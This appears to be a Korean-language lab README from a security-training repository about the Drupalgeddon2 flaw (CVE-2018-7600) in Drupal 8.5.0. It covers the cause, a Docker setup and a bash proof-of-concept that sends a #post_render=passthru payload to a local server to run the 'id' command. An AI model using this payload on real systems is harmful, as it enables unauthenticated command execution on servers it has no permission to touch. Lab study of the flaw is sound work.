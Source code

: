 # CVE-2018-7600 - Drupalgeddon2 (Drupal 8.5.0 RCE)

## 1. 개요
- Drupal 8.5.0 버전에서 발생한 인증 없는 원격 코드 실행(RCE) 취약점이다.
- Form API 처리 로직의 결함을 통해 외부 사용자가 서버 명령어를 실행할 수 있다.

## 2. 취약점 원인
- Drupal이 사용자로부터 받은 `#post_render` 파라미터를 제대로 검증하지 않고 그대로 실행한다.
- 이로 인해 원격 사용자가 서버 측에서 임의의 PHP 함수나 시스템 명령어를 실행할 수 있다.

## 3. 환경 구축 (완전 자동화)

- `docker compose up -d` 명령어로 즉시 설치 완료된 Drupal 8.5.0 환경이 실행된다.

- `settings.php`, `init.sql` 설정파일 백업본 적용
- 별도의 수동 설치 과정 없이, 웹 접속 시 바로 Drupal 메인 화면을 확인할 수 있다.

**구성 자동화 방식:**
- `settings.php`: Drupal 설치 완료 상태 파일을 컨테이너 실행 시 복사
- `init.sql`: DB 초기 데이터 세팅을 컨테이너 시작 시 자동 적용

## 4. 실습 (PoC)

- 해당 스크립트는 Drupal 서버에 취약한 요청을 보내고 명령어 실행 결과를 확인할 수 있다.
- 자동 poc 실행 코드

### PoC 스크립트 (poc_exploit.sh)
명령어 자동실행
```
#!/bin/bash

echo "[*] Drupal CVE-2018-7600 PoC 실행 중..."

response=$(curl -k -s -X POST "http://localhost:8080/user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax" \
-H "Content-Type: application/x-www-form-urlencoded" \
--data "form_id=user_register_form&_drupal_ajax=1&mail[a][#post_render][]=passthru&mail[a][#markup]=id")

echo "[+] 서버 응답:"
echo "$response"
```

실행코드
```
chmod +x poc_exploit.sh
./poc_exploit.sh
```

## 5. 결과
[![image](https://github.com/won6c/whitehat-school-vulhub/blob/main/CVE-2021-22205/1.png)]
[![image](https://github.com/Thengelsec/kr-vulhub/raw/main/1.png)]

- 쉘에서 id 명령어 결과가 나옴
